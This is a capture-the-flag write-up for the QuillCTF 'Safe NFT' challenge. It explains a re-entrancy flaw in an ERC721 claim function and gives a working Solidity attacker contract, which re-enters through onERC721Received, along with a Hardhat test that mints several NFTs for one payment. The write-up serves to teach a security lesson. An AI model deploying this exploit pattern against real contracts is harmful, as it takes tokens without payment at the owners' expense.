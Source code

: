 # QuillCTF 4: Safe NFT

**Objective of CTF:**

- Claim multiple NFTs for the price of one.

**Target contract:**

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.7;

import "@openzeppelin/contracts/token/ERC721/extensions/ERC721Enumerable.sol";

contract SafeNFT is ERC721Enumerable {
  uint256 price;
  mapping(address => bool) public canClaim;

  constructor(string memory tokenName, string memory tokenSymbol, uint256 _price) ERC721(tokenName, tokenSymbol) {
    price = _price; // e.g. price = 0.01 ETH
  }

  function buyNFT() external payable {
    require(price == msg.value, "INVALID_VALUE");
    canClaim[msg.sender] = true;
  }

  function claim() external {
    require(canClaim[msg.sender], "CANT_MINT");
    _safeMint(msg.sender, totalSupply());
    canClaim[msg.sender] = false;
  }
}
```

## The Attack

This contract has the good ol' re-entrancy exploit. The contract is rather innocent-looking, and the re-entrancy comes from a detail of ERC721 standard: the `onERC721Received` function.

First, what is re-entrancy? Re-entrancy is when a contract is executing a function, and before the effects of that function can take place, one can enter there again to re-execute the same function without suffering from the effects. For example, you could have a function that sends you money first, and marks the storage value `sent=true` next; you can keep recieving money by re-entering the function before `sent=true` takes place!

A similar pattern can be observed in this target contract, where `canClaim[msg.sender] = false` takes place after we actually receive our token. If this were to take place before we receive our token, re-entering the function would not work because of the `require(canClaim[msg.sender], "CANT_MINT")` requirement.

So how do we re-enter to `claim` function? That is where `onERC721Received` comes in: this function is executed if the contract supports `IERC721Receiver` interface and implements this function. Within this function, we can call `claim` again, and successfully re-enter!

We will write an attacker contract that implements `IERC721Receiver`, and write the re-enterancy logic within `onERC721Received`. We will not only re-enter, but also forward the claimed tokens to ourselves (the owner of the contract). This way, we pay the price of a single NFT but claim as many as we would like.

## Proof of Concept

The attacker contract is as follows:

```solidity
contract SafeNFTAttacker is IERC721Receiver {
  uint private claimed;
  uint private count;
  address private owner;
  SafeNFT private target;

  constructor(uint count_, address targetAddr_) {
    target = SafeNFT(targetAddr_);
    count = count_;
    owner = msg.sender;
  }

  // initiate the pwnage by purchasing a single NFT
  // we will re-enter later via onERC721Received
  function pwn() external payable {
    target.buyNFT{value: msg.value}();
    target.claim();
  }

  function claimNext() internal {
    // keep record of the current claim
    claimed++;
    // if we want to keep on claiming, continue re-entering
    // stop if you think they've had enough :)
    if (claimed != count) {
      target.claim();
    }
  }

  function onERC721Received(
    address /*operator*/,
    address /*from*/,
    uint256 tokenId,
    bytes calldata /*data*/
  ) external override returns (bytes4) {
    // forward the claimed NFT to yourself
    target.transferFrom(address(this), owner, tokenId);

    // re-enter
    claimNext();

    return IERC721Receiver.onERC721Received.selector;
  }
}
```

The Hardhat test code to demonstrate this attack is given below. Contract types are generated via TypeChain.

```typescript
describe('QuillCTF 4: Safe NFT', () => {
  let contract: SafeNFT;
  let attackerContract: SafeNFTAttacker;
  let owner: SignerWithAddress;
  let attacker: SignerWithAddress;
  const price = parseEther('0.1');
  const count = 3; // as many as you want

  before(async () => {
    [owner, attacker] = await ethers.getSigners();
    contract = await ethers.getContractFactory('SafeNFT', owner).then(f => f.deploy('Safe NFT', 'SFNFT', price));
    await contract.deployed();
  });

  it('should claim multiple nfts', async () => {
    // deploy the attacker contract
    attackerContract = await ethers
      .getContractFactory('SafeNFTAttacker', attacker)
      .then(f => f.deploy(count, contract.address));
    await attackerContract.deployed();

    // initiate first claim and consequent re-entries via pwn
    attackerContract.pwn({value: price});

    // you should have your requested balance :)
    expect(await contract.balanceOf(attacker.address)).to.eq(count);
  });
});
```
